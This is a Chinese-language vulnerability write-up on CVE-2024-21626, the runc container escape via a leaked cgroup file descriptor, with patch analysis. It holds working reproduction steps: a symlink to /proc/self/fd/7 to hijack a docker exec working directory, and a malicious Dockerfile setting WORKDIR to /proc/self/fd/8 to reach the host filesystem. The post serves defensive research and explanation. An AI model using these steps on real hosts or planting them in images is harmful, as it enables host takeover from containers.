

# CVE-2024-21626 容器逃逸漏洞分析

[](#TL-DR "TL; DR")TL; DR

最近公开了一个 runc 容器逃逸的公告，公告细节链接为： [https://github.com/opencontainers/runc/security/advisories/GHSA-xr7r-f8xq-vfvv](https://github.com/opencontainers/runc/security/advisories/GHSA-xr7r-f8xq-vfvv)

从公告看漏洞影响范围是： `>=v1.0.0-rc93,<=1.1.11` , 补丁版本为：1.1.12，这里我的复现版本是：

|     |     |
| --- | --- |
| ```plain<br>1<br>2<br>3<br>4<br>5<br>``` | ```plain<br># root @ pwnable in ~ [16:27:23]<br>$ docker info \| grep "runc"<br> Runtimes: io.containerd.runc.v2 runc<br> Default Runtime: runc<br> runc version: v1.1.7-0-g860f061<br>``` |

然后今天看到，于是和 @explorer 和 @leommxj 简单看了一下。

## [](#%E6%BC%8F%E6%B4%9E%E5%88%86%E6%9E%90 "漏洞分析")漏洞分析

从公告讲就是 `runc run` 或者 `runc exec` 的过程中有存在没有及时关闭的 `fd` ，导致文件描述符泄漏在容器环境中，用户可以通过这个文件描述来进行容器逃逸。

首先来做一个赛博考古，公告提到该漏洞是在 `v1.0.0-rc93` 这个版本引入的，在这个版本找到了两个打开 cgroup 地方。

一处是在这个 [commit](https://github.com/opencontainers/runc/commit/fad92bbffa9c13652c07f1966606089e28442a87) 中，在 `(m *manager) Apply(pid int) (err error)` 函数中加载了 cgroup，然后在 `func (p *initProcess) start()` 函数里调用到了。具体文件行号为 fs.go:339

|     |     |
| --- | --- |
| ```plain<br>1<br>2<br>3<br>``` | ```plain<br>if err := p.manager.Apply(p.pid()); err != nil {<br>	return newSystemErrorWithCause(err, "applying cgroup configuration for process")<br>}<br>``` |

[](https://sw-blog.oss-cn-hongkong.aliyuncs.com/img/2024-02-01-dfd0b187a7a90ee33fe0907ee0221b6a-9f4d04.png "image.png")

此处在 rc93 这个版本 release 的

另外一处是在这个 [commit](https://github.com/opencontainers/runc/commit/e0c0b0cf321252b8d964fc64d62d21f107615304) 中，但是这个 commit 是 rc92 中 release 的，由于我和 @leoomxj 都暂时没看到这个 commit 打开的 cgroup 是否 close 掉了，所以这里也提一句。

[](https://sw-blog.oss-cn-hongkong.aliyuncs.com/img/2024-02-01-fdcb1245e8a627b547417799eadd58ee-172ae7.png "image.png")

经过仔细阅读公告，我们可以了解到问题的根源在于未及时清理打开的 `cgroup` 文件描述符（fd），导致泄漏。这在 init/exec 过程中表现为在 runc 的 `/proc/self/fd/7` 中可以找到被打开的 `cgroup`，但在后续启动的二进制文件中却被关闭了。

到这，根据公告的利用过程其思路核心为在 `runc` 创建子进程的时候且 exec(run) 即将执行的二进制文件还没关闭之前，将 `cwd`设置为 `/proc/self/fd/7` , 这个这个时候这个二进制程序进程的 `/proc/pid/cwd` 就会指向容器外的`/sys/fs/cgroup`

接着我们开始做一点简单的漏洞复现

## [](#%E6%BC%8F%E6%B4%9E%E5%A4%8D%E7%8E%B0 "漏洞复现")漏洞复现

公告中提到了如果设置 cwd 为 `/proc/self/fd` 就会导致逃逸

> If the container was configured to have process.cwd set to /proc/self/fd/7/ (the actual fd can change depending on file opening order in runc), the resulting pid1 process will have a working directory in the host mount namespace and thus the spawned process can access the entire host filesystem.

### [](#attack-2-runc-exec-%E8%BF%87%E7%A8%8B-docker-exec "attack 2 runc exec 过程 (docker exec)")attack 2 runc exec 过程 (docker exec)

那么做如下操作：

[](https://sw-blog.oss-cn-hongkong.aliyuncs.com/img/2024-02-01-1ee7b4735f493775570f4ed53cf59e47-74d718.png "image-20240201211519027")

这时候发现我们当前的 cwd 目录其实就是在 `/sys/fs/cgroup` 中，而且是容器外的 `cwd`，于是我们使用多个 `../` 就能读取主机的文件系统文件。

[](https://sw-blog.oss-cn-hongkong.aliyuncs.com/img/2024-02-01-9848f9fce7b55b711bf45a9a66355abe-617837.png "image-20240201211835141")

明显能看到 docker exec 的时候 `/proc/self/fd/7` 确实指向了 `cgroup` , 于是以此文章提出了一种逃逸场景

> The same fd leak and lack of verification of the working directory in attack 1 also apply to `runc exec`. If a malicious process inside the container knows that some administrative process will call `runc exec` with the `--cwd` argument and a given path, in most cases they can replace that path with a symlink to `/proc/self/fd/7/`. Once the container process has executed the container binary, `PR_SET_DUMPABLE` protections no longer apply and the attacker can open `/proc/$exec_pid/cwd` to get access to the host filesystem.

> `runc exec` defaults to a cwd of `/` (which cannot be replaced with a symlink), so this attack depends on the attacker getting a user (or some administrative process) to use `--cwd` and figuring out what path the target working directory is. Note that if the target working directory is a parent of the program binary being executed, the attacker might be unable to replace the path with a symlink (the `execve` will fail in most cases, unless the host filesystem layout specifically matches the container layout in specific ways and the attacker knows which binary the `runc exec` is executing).

具体场景为，攻击者已经有了容器内 shell，然后需要主机外有 `docker exec` 命令，且需要用到 `cwd` 参数，然后攻击者得判断或者指定用户即将设置的 `cwd` 路径和当前这个 runc 是不是也是 fd 为 7 的时候指向 `cgroup` ，然后提前设置好符号链接指向 `/proc/self/fd/7` , 复现流程如下：

假设我即将设置的 cwd 为 /tmp/hacker, 在容器中执行以下命令

-   `ln -s /proc/self/fd/7 /tmp/hacker`

然后容器外执行一下命令

-   `docker exec -w /tmp/fuck -it cve-2024-21626 /bin/bash`

此时就会发现 cwd 已经是外面的/sys/fs/cgroup 了

[](https://sw-blog.oss-cn-hongkong.aliyuncs.com/img/2024-02-01-0aba4477f88cdbe26e5e4b86c4ebc632-d327a5.png "image-20240201212846550")

## [](#attack-1-docker-build-gt-%E6%81%B6%E6%84%8F%E9%95%9C%E5%83%8F "attack 1 (docker build) -> 恶意镜像")attack 1 (docker build) -> 恶意镜像

这里也提一下 docker builid 镜像的攻击手段，我们从 [https://snyk.io/blog/cve-2024-21626-runc-process-cwd-container-breakout/](https://snyk.io/blog/cve-2024-21626-runc-process-cwd-container-breakout/) 这个博客可以看到受害者执行一个 run 镜像的操作就被容器逃逸了。

这里的我的 Dockerfile 内容如下，此时我环境泄漏的 fd 是 8，这个我是试出来的。

|     |     |
| --- | --- |
| ```plain<br>1<br>2<br>3<br>``` | ```plain<br>FROM ubuntu:22.04<br>RUN ls -al ./<br>WORKDIR /proc/self/fd/8<br>``` |

首先 build 我的恶意镜像

-   `docker build -t test .`

然后执行恶意镜像

-   `docker run --rm -it test bash`

就会发现此时 `cwd` 就是在 cgroup，通过 `../../` 就能穿越到 host 目录中

[](https://sw-blog.oss-cn-hongkong.aliyuncs.com/img/2024-02-01-81fb372b81ebd7126f5992037d52b6dd-054740.png "image-20240201213539584")

在漏洞修复之前，小心恶意镜像投毒哦 ~

## [](#%E8%A1%A5%E4%B8%81%E5%88%86%E6%9E%90 "补丁分析")补丁分析

从这个 [2a4ed3e75b9e80d93d1836a9c4c1ebfa2b78870e](https://github.com/opencontainers/runc/commit/2a4ed3e75b9e80d93d1836a9c4c1ebfa2b78870e) commit 中能看到几个比较明显的安全补丁（还有缓解措施）

-   使用 `O_CLOEXEC` flag 来打开文件，避免子进程继承了父进程的 fd

[](https://sw-blog.oss-cn-hongkong.aliyuncs.com/img/2024-02-01-3d247d8ab3a957ac8360bb6ab274bc26-0d73a8.png "image.png")

详情 commit 链接： [https://github.com/opencontainers/runc/commit/89c93ddf289437d5c8558b37047c54af6a0edb48](https://github.com/opencontainers/runc/commit/89c93ddf289437d5c8558b37047c54af6a0edb48)

-   新增了 `verifyCwd` 函数，并在 `finalizeNamespace` 中增加调用了 `verifyCwd` 检查是否 cwd 在容器 namespace 外

[](https://sw-blog.oss-cn-hongkong.aliyuncs.com/img/2024-02-01-cb49333e16be42b5cb86ebac0feac568-58854c.png "image.png")

-   新增 `UnsafeCloseFrom` 函数， `linuxSetnsInit` & `linuxStandardInit` 中增加了部分该函数的调用，关闭当前进程中大于或等于 minFd 的所有文件描述符，除了那些对 Go 运行时关键（例如 netpoll 管理描述符），

[](https://sw-blog.oss-cn-hongkong.aliyuncs.com/img/2024-02-01-e8cef47e36037879dc641a0d85a0db18-3fa173.png "image.png")

## [](#%E7%96%91%E9%97%AE "疑问")疑问

1.  究竟是哪个 commit 是真正引入漏洞的，有没有同学深入再研究一下。
2.  为什么提到了 `PR_SET_DUMPABLE` 这个，我印象中这个是 core dump 相关的，在 runc 中这个起了什么作用？

最后吐槽一句，如果这个洞早几天出我们 RWCTF 体验赛的 Be-a-Docker-Escaper 系列就又能多一个题了。

## [](#Reference-link "Reference link")Reference link
